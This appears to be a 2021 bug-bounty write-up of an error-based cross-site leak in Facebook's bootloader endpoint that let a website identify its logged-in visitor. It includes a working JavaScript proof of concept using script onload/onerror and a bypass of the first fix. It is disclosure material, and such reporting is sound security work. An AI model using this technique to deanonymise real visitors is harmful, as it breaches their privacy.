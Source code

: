 ```yaml
---
title: XSLEAKS error-based lead to disclose the visitor Facebook ID
date: 2021-06-24 13:00:24 +0800
categories: [Bug-Bounty, Writeup]
tags: [facebook]
---
```


# Description

The ajax bootloader endpoint (https://web.facebook.com/ajax/bootloader-endpoint/), is used to load react modules. An error-based xsleaks happen in this endpoint when all the get parameter is removed except the __user and __a=1 (https://web.facebook.com/ajax/bootloader-endpoint/?__user=USERID&__a=1). This endpoint will return 404 status code if the __user parameter value match with the logged in user id and will return 200 if its not match. It is possible to detect these 2 state (404 and 200 status code) using onload and onerror event. making an attacker to detect whether the target user is visited the attacker controlled webpage.

# Impact

This endpoint could have let a malicious website determine which Facebook user was visiting them due to XSLeaks.

# FBDL Run
```
    [setup]
    User UserOne
    User UserTwo

    Results:
    UserOne => 100066013862573
    UserTwo => 100065449647222
```
# Steps to reproduce 

1. Log in to Facebook as UserOne
2. Open other website (e.g https://google.com)
2. Open the browser console (Right Click -> Inspect Element -> Console Tab)
3. Copy paste this script to the console :

```javascript
    var id = '100066013862573' // UserOne ID
    var script = document.createElement('script');
    script.src = `https://web.facebook.com/ajax/bootloader-endpoint/?__user=${id}&__a=1`
    script.onload = () => console.log('Nope');
    script.onerror = e => console.log('Match');
    document.head.appendChild(script);
```

This should print "Match" in the console.

## Reference 

1. https://hackerone.com/reports/505424

# Timeline

- Apr 07, 2021 - Report sent
- Apr 12, 2021 - Triaged
- Jun 24, 2021 - Fixed
- Jun 24, 2021 - Bounty awarded $1250
- Jun 27, 2021 - Send information that the fix can be bypass and open a new report (1)
- Jun 29, 2021 - Triaged (new report)
- Jul 23, 2021 - Bounty awarded $1313 (Including Bonus)
- Jul 24, 2021 - Fixed

> 1. The fix can be bypass by adding a non numeric character in the last __user parameter value
> __user=1001 -> __user=1001a
{: .prompt-info }

